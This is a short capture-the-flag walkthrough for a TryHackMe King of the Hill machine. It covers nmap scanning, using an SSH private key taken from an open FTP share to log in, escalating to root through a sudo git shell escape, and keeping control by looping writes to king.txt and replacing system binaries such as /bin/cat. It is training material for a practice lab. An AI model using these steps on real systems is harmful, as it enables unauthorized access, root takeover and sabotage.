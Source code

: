 # Try Hack Me THM Koth (Production)
- Scan the server
```bash
nmap -sC -sV IP.SERVER.ADDRESS
```
- show result that port `21,22,139,445...` is open there is something on FTP 
### Check FTP Server you will get 
```bash
flag.txt
id_rsa
authorized_keys
id_rsa.pub
```

- Look at `authorized_keys` or `id_rsa.pub` that user is `ashu@ubuntu`
- Change permission of file id_rsa to 400 `chmod 400 id_rsa`
- Then ssh to server `ssh -i id_rsa ashu@IP.SERVER.ADDRESS`
- After login you will have file on `/home/ashu` you will get the flag here.
- Check on `/home/skiddy/homework` there a file there you will get the password there `yxxxxxx!`

### Priviledge Escalation 
- From ashu user `sudo su skiddy` 
- After become skidy then look at the permission using sudo with `sudo -l`
- After that check on `https://gtfobins.github.io/` for sudo git 
- Using `:!/bin/bash` we will get root priviledges
- Congrat's you got the root ... and just find other flag.txt using `find / -name "*.txt" 2>/dev/null`

### Defending king.txt
- using this loop to change king.txt if other user change it. `while [ 1 ]; do  echo "anesthetistabove" - /root/king.txt ; sleep 0.1; done &` it will loop every 0.1 second
- Change `/bin/cat` `/bin/echo` to become other file, so other user can not use it ;) 
